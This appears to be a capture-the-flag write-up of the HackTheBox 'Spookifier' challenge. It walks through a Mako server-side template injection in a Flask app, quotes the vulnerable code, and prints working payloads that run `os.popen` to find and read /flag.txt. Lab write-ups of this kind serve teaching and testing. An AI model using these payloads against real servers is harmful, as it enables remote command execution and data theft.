




---
last_update:
    date: 2024-03-08
tags: ['Web', 'SSTI', 'HackTheBox']
---

# [Spookifier](https://app.hackthebox.com/challenges/Spookifier)

## 0. Analysis


### 0.1. Playaround
> Take a glance at the web server. An textbox with inputs that will send a query and outputs in the table.


<center>Figure 1. Glance at the web server</center>  

### 0.2. Code
> web service runs with `flask` 2.0.0
```Dockerfile
# /Dockerfile:8
RUN pip install Flask==2.0.0 mako flask_mako Werkzeug==2.0.0
```

> flag stores in `/` without obfuscation/encryption.
```Dockerfile
# /Dockerfile:11
COPY flag.txt /flag.txt
```

> input uses template rendering via `mako`.
```py
# /challenge/application/util.py:1
from mako.template import Template

font1 = {
	'A': '𝕬',
	'B': '𝕭',
	'C': '𝕮',
    ...
}

font4 = {
	'A': 'A', 
	'B': 'B',
	'C': 'C',
	...
}

def generate_render(converted_fonts):
	result = '''
		<tr>
			<td>{0}</td>
        </tr>
        
		<tr>
        	<td>{1}</td>
        </tr>
        ...

	'''.format(*converted_fonts)
	
	return Template(result).render()

def change_font(text_list):
	text_list = [*text_list]
	current_font = []
	all_fonts = []
	
	add_font_to_list = lambda text,font_type : (
		[current_font.append(globals()[font_type].get(i, ' ')) for i in text], all_fonts.append(''.join(current_font)), current_font.clear()
		) and None

	add_font_to_list(text_list, 'font1')
    ...

	return all_fonts
```

## 1. Assumptions

From the code, the template renders without any text-restriction given by font4 since most of characters to build code injections are supported (e.g., `<>%/\{}#$`). 

## 2. Attempts

> Test if the service is available to perform SSTI:
```js
payload = `${{ 5*5 }}`
encodeURIComponent(payload) // %24%7B%7B%205*5%20%7D%7D
```


<center>Figure 2. Test if the web service can inject common SSTI payload</center>  

2. Injecting [payload](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#mako) to retrieve system. Fistly, check the location of `flag.txt`:
```js
payload = `\${self.module.cache.util.os.popen('find / -name flag.txt').read()}`
encodeURIComponent(payload)
```


<center>Figure 3. output of he location of <code>flag.txt</code></center>

```js
payload = `\${self.module.cache.util.os.popen('cat /flag.txt').read()}`
encodeURIComponent(payload)
```


<center>Figure 4. flag found.</center>
